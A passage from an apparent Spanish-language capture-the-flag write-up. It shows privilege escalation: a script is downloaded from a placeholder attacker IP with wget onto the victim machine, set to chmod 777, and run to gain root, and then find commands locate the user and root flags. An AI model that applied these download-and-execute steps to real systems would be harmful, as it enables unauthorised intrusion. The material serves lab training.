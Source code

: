 Ahora en la máquina víctima, nos lo descargamos con el siguiente comando

```bash
wget http://[IPatacante]/[nombrescript.py]
```

Le damos el permiso 777 que da permisos de lectura, escritura y ejecución al propietario, al grupo y a otros.

```bash
chmod 777 [script.py]
```

Ya con el script en el equipo objetivo, le cambiamos el nombre y simplemente lo ejecutamos. 

```bash
./script.py
```

![Imagen030](30.jpeg)

Tal y como vemos, somos usuario root. Ya con privilegios de root, buscamos las flags de usuario y de root con los siguientes comandos 

```bash
find / -type f -name "user.txt" 2>/dev/null
```

![Imagen031](31.jpeg)


```bash
find / -type f -name "root.txt" 2>/dev/null   
```
